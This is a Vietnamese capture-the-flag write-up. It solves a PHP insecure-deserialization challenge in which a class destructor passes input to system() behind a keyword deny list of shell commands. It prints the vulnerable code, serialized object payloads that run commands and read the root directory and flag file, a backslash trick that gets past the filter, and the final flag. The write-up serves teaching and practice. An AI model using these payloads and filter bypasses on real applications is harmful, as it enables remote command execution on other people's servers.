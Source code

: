 # ⛳ Faster

- Description: Bạn có thể nhanh hơn throw Exception() không? http://45.122.249.68:10019
- Code:

```
<?php
class exploit_me
{
    public $cmd;
    public function __destruct(){
        system($this->cmd);
    }
}
$payload= $_GET['payload'];
if ($payload[0]==='a' || $payload[0]==='C')
{
    die('awwwww! this\'s the wrong way!');
}
else if (preg_match('/cat|ls|nl|head|less|more|tail|mv|base|grep|dir|\*|strings|sort|txt|find|print|tac|awk/is',$payload))
    die('awwwww! this\'s the wrong way!');
unserialize($payload);
throw new Exception("oh nooooooo!!!");
?>
```
## Write-up:

Đây là một bài **Insecure Deserialize** cơ bản với bộ lọc cho trước.
Filter(payload): `cat` | `ls` | `nl` | `head` | `less` | `more` | `tail` | `mv` | `base` | `grep` | `dir` | `*` | `strings` | `sort` | `txt` | `find` | `print` | `tac` | `awk`  
Ta exploit với việc **serialize** object trên, copy lại toàn bộ hàm, do class **exploit_me** không có khởi tạo giá trị cho **$cmd** nên ta thêm vào hàm **__construct** và khởi tạo bằng lệnh ta mong muốn. Ở đây ta thử lệnh `id` để không nằm trong bộ lọc.
```
<?php
class exploit_me
{
    public $cmd;
    public function __construct($command){
        $this->cmd= $command;
    }
    public function __destruct(){
        system($this->cmd);
    }
}

$vulner = new exploit_me("id");
$payload= serialize($vulner);
echo($payload."\n");
?>
```
Test thử kết quả và lấy giá trị đối tượng đã được serialize 

![image](https://user-images.githubusercontent.com/48288606/147397751-c7900eda-2b49-48a2-ae05-484165643e41.png)

Ta đưa vào biến **$payload**: `?payload=O:10:"exploit_me":1:{s:3:"cmd";s:2:"id";}`.

![image](https://user-images.githubusercontent.com/48288606/147397795-ccfee8ab-b916-4e99-ae5a-1c951b7681ce.png)

Với filter đơn giản vậy, ta sử dụng regex để bypass. Thay đổi đoạn code khởi tạo đối tượng trên thành `$vulner = new exploit_me("l\s");`. <br>
Ta có **$payload**: `O:10:"exploit_me":1:{s:3:"cmd";s:3:"l\s";}`

![image](https://user-images.githubusercontent.com/48288606/147397831-2499f171-a978-418f-9f0c-62e18f3e730e.png)

Vậy là ta đã execute command thành công qua việc bypass filter bằng regex. Ở đây chúng ta có 2 file là **index.php** và **source.php**. Đọc 2 file này ra không thấy có gì đặc biệt, chung một nội dung và là file source code. Ta thử liệt kê các file ở thư mục gốc. Payload: `?payload=O:10:"exploit_me":1:{s:3:"cmd";s:9:"l\s%20/%20-a%20";}`

![image](https://user-images.githubusercontent.com/48288606/147398460-edca852d-b577-4827-9a14-4aa7190809b5.png)

Ở đây có file **a8749209e3d652e_flag**. Thử đọc file này. Payload: `?payload=O:10:"exploit_me":1:{s:3:"cmd";s:27:"c\at  /a8749209e3d652e_flag";}`

![image](https://user-images.githubusercontent.com/48288606/147398483-2bb6d8f1-bc74-4063-8318-5c77620fcca9.png)

**NOTE**: Ở đây nếu chuẩn thì mình nghĩ nên dùng lệnh `find` kết hợp với regex để tìm file có dạng **"\*flag\*"**, vì ở đây đề cho cấm **wildcar** `*` nên phải suy nghĩ cách dùng regex hợp lý. Còn cách giải của mình thì mò file flag =)), với lại đường dẫn thư mục root `/` là đường dẫn nhạy cảm nên thường có flag ở đó.

Flag: **Wanna.One{Fast_detruct_is_tooooooooo_easy_for_you_!!!}**



